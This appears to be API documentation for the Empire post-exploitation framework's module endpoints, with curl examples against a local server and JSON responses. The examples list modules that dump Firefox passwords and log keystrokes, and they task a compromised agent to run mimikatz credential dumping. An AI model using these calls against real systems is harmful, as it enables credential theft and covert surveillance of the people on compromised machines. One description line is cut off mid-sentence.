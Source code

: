 # Modules

## Get Current Modules

### Handler

* **Handler:** GET /api/modules
* **Description:** Returns all current Empire modules.
* **Parameters:** None

### Example

**Request**:

```bash
curl --insecure -i https://localhost:1337/api/modules?token=ks23jlvdki4fj1j23w39h0h0xcuwjrqilocxd6b5
```

**Response**:

```javascript
{
  "modules": [
    {
      "Author": [
        "@xorrior"
      ],
      "Background": true,
      "Comments": [
        "https://github.com/xorrior/RandomPS-Scripts/blob/master/Get-FoxDump.ps1",
        "http://xakfor.net/threads/c-firefox-36-password-cookie-recovery.12192/"
      ],
      "Description": "This module will dump any saved passwords from Firefox to the console. This should work for any versionof Firefox above version 32. This will only be successful if the master password is blank or has not been set.",
      "MinPSVersion": "2",
      "Name": "collection/FoxDump",
      "NeedsAdmin": false,
      "OpsecSafe": true,
      "OutputExtension": null,
      "SaveOutput": false,
      "options": {
        "Agent": {
          "Description": "Agent to run the module on.",
          "Required": true,
          "Value": ""
        },
        "OutFile": {
          "Description": "Path to Output File",
          "Required": false,
          "Value": ""
        }
      }
    },
    ...
  ]
}
```

## Get Module by Name

### Handler

* **Handler:** GET /api/modules/MODULE\_NAME
* **Description:** Returns the module specified by MODULE\_NAME.
* **Parameters:** None

### Example

**Request**:

```bash
curl --insecure -i https://localhost:1337/api/modules/collection/keylogger?token=ks23jlvdki4fj1j23w39h0h0xcuwjrqilocxd6b5
```

**Response**:

```javascript
{
  "modules": [
    {
      "Author": [
        "@obscuresec",
        "@mattifestation",
        "@harmj0y"
      ],
      "Background": true,
      "Comments": [
        "https://github.com/mattifestation/PowerSploit/blob/master/Exfiltration/Get-Keystrokes.ps1"
      ],
      "Description": "Logs keys pressed, time and the active window (when changed).",
      "MinPSVersion": "2",
      "Name": "collection/keylogger",
      "NeedsAdmin": false,
      "OpsecSafe": true,
      "OutputExtension": null,
      "options": {
        "Agent": {
          "Description": "Agent to run module on.",
          "Required": true,
          "Value": ""
        }
      }
    }
  ]
}
```

## Search for Module

### Handler

* **Handler:** POST /api/modules/search
* **Description:** Searches all module fields for the given term.
* **Parameters:** None required
  * **term:** the term to search for \(required\)

### Example

**Request**:

```bash
curl --insecure -i -H "Content-Type: application/json"  https://localhost:1337/api/modules/search?token=ks23jlvdki4fj1j23w39h0h0xcuwjrqilocxd6b5 -d '{"term":"keylogger"}'
```

**Response**:

```javascript
{
  "modules": [
    {
      "Author": [
        "@obscuresec",
        "@mattifestation",
        "@harmj0y"
      ],
      "Background": true,
      "Comments": [
        "https://github.com/mattifestation/PowerSploit/blob/master/Exfiltration/Get-Keystrokes.ps1"
      ],
      "Description": "Logs keys pressed, time and the active window (when changed).",
      "MinPSVersion": "2",
      "Name": "collection/keylogger",
      "NeedsAdmin": false,
      "OpsecSafe": true,
      "OutputExtension": null,
      "options": {
        "Agent": {
          "Description": "Agent to run module on.",
          "Required": true,
          "Value": ""
        }
      }
    }
  ]
}
```

## Execute a Module

### Handler

* **Handler:** POST /api/modules/MODULE\_NAME
* **Description:** Tasks an 
* **Parameters:** None required
  * **Agent:** the agent to task the module for \(or all\). Required.
  * **Additional:** any additional module values enumerated from module options

### Example

**Request**:

```bash
curl --insecure -i -H "Content-Type: application/json" https://localhost:1337/api/modules/credentials/mimikatz/logonpasswords?token=$TOKEN -X POST -d '{"Agent":"WTN1LHHRYHFWHXU3"}'
```

**Response**:

```javascript
{
  "msg": "tasked agent WTN1LHHRYHFWHXU3 to run module credentials/mimikatz/logonpasswords",
  "success": true
}
```

